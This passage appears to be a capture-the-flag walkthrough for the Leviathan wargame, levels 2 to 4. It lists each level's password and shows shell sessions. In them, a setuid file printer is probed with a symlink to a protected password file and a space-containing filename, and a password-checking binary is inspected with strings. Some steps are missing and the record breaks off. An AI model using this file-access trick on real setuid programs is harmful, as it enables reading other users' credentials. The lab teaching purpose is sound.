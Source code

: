 ```
ougahZi8Ta
$
```

####level 2 to Level 3

* username = Leviathan2
* password = Ahdiemoo1j

######Description and the code
Leviathan2 has the password to access the leviathan3, it contains in a small binary that belongs to the user leviathan3 and group leviathan2.

```
leviathan2@melinda:~$ ls -la
total 28
drwxr-xr-x   2 root       root       4096 Nov 14  2014 .
drwxr-xr-x 167 root       root       4096 Jul  9 16:27 ..
-rw-r--r--   1 root       root        220 Apr  9  2014 .bash_logout
-rw-r--r--   1 root       root       3637 Apr  9  2014 .bashrc
-rw-r--r--   1 root       root        675 Apr  9  2014 .profile
-r-sr-x---   1 leviathan3 leviathan2 7498 Nov 14  2014 printfile

leviathan2@melinda:~$ ./printfile
*** File Printer ***
Usage: ./printfile filename
leviathan2@melinda:~$

leviathan2@melinda:~$ mkdir /tmp/solveme && touch /tmp/solveme/file\ tmp.txt
leviathan2@melinda:~$ cd /tmp/solveme
leviathan2@melinda:/tmp/solveme$ ls -ls
total 0
0 lrwxrwxrwx 1 leviathan2 leviathan2 30 Oct  3 17:22 file -> /etc/leviathan_pass/leviathan3
0 -rw-rw-r-- 1 leviathan2 leviathan2  0 Oct  3 17:18 file tmp.txt
leviathan2@melinda:/tmp/solveme$
leviathan2@melinda:/tmp/solveme$ ltrace ~/printfile "fie tmp.txt"
__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600 <unfinished ...>
access("fie tmp.txt", 4)                          = -1
puts("You cant have that file..."You cant have that file...
)                = 27
+++ exited (status 1) +++
leviathan2@melinda:/tmp/solveme$
```

####level 3 to Level 4

* username = Leviathan3
* password = vuH0coox6m

######Description, codes and the outputs
We only need a few commands to get access to Leviathan4. When we finally do get its shell, we can "cat" its password in /etc/leviathan_pass/leviathan4.

```
leviathan3@melinda:~$ ls
level3
leviathan3@melinda:~$ ./level3
Enter the password> passward
bzzzzzzzzap. WRONG
leviathan3@melinda:~$ string ./level3
-bash: string: command not found
leviathan3@melinda:~$ strings ./level3
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
puts
__stack_chk_fail
```